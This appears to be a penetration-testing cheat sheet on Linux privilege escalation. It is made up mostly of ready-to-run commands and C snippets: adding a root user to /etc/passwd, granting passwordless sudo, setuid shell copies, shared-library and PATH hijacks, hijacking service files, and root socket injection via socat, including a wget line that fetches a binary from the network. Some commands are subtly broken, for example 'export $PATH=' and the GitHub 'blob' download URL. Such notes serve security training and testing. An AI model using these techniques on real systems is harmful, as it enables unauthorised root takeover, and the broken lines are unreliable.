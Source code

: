 # Privileges Exploitation

## Writable /etc/passwd

Create a new user entry in root group and append it to the /etc/passwd file

```bash
echo "<username>:$(openssl passwd <password>):0:0:/root:/root:/bin/bash" >> /etc/passwd
```

## Writable /etc/sudoers

Allow current user to invoke any program with sudo without needing the password

```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

## Elevated shell with sticky bit

By exploiting an application running as root (for instance a database or a script) it is possible to obtain an elevated shell by executing the following commands within the elevated application:

```bash
cp /bin/dash /tmp/<file>
chmod u+s /tmp/<file>
#execute the elevated shell
/tmp/<file> -p
```

## SUID exploit

### Built-in exploitable binaries

{% embed url="https://gtfobins.github.io/" %}

### Shared library hijack

#### check for missing .so files

```bash
strace <binary> 2>&1 | grep -i -E "open|access|no such file"
ldd <file> | grep "not found"
```

#### Shared library code

Put the file in the path of the missing library or replace it if you can write in the folder.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

#### Compile as

```bash
gcc -shared -o <path to library> -fPIC <file>.c
```

### Relative path hijack

#### Find calls to system binaries in executable file

Search for calls to executables with relative paths, for instance instead of `/bin/cp` look for `cp`

```bash
strings <file>    #static calls
ltrace <file>     #library calls during execution
```

#### boilerplate code

```bash
#include <stdio.h>
#include <stdlib.h>

int main(){
setresuid(0,0,0);
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
return 0;
}
```

#### compile and execute

Add the /tmp folder to the $PATH variable and compile the malicious program with the same name as the relative path executable invoked in the vulnerable executable. In this way the generated malicious program will be detected and executed before the system one.

```bash
export $PATH=/tmp:$PATH
gcc -o /tmp/<name>.so <name>.c -s --static
/<path to vuln binary>
```

## Writable service files

Can be found by searching for .service files with write permission or by checking write permissions with sudo -l

### File template

the Exec\* instructions can be hijacked to execute arbitrary scripts

```
[Unit]
Description=The NGINX HTTP and reverse proxy server
After=syslog.target network.target remote-fs.target nss-lookup.target

[Service]
Type=forking
PIDFile=/run/nginx.pid
ExecStartPre=/usr/sbin/nginx -t
ExecStart=/usr/sbin/nginx
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s QUIT $MAINPID
PrivateTmp=true

[Install]
WantedBy=multi-user.target
```

The basic structure of a service file is the following:

```
[Unit]
Description=Foo

[Service]
ExecStart=/usr/sbin/foo-daemon

[Install]
WantedBy=multi-user.target
```

### Manage services

```
which <deamon>                    get the path to the running deamon
sudo systemctl start <deamon>     start deamon        
sudo systemctl stop <deamon>      stop deamon
sudo systemctl restart <deamon>   restart deamon
systemctl status <deamon>         get status info
sudo systemctl enable <deamon>    launch deamon on startup
journalctl -u <deamon>            access logs for given deamon
```

## Socket Code Injection

When an application creates a socket running under root it is possible to send commands to the socket to create a suid-privileged shell and escalate privileges.  These applications can be recognized because they create a .s file in a specific folder (usually /tmp)

If the target machine does not have socat installed execute the following command

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat && chmod +x ./socat
```

Run the application to spawn the socket then execute the following commands to spawn a privileged shell

```
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:<path to socket file>
/tmp/bash
```
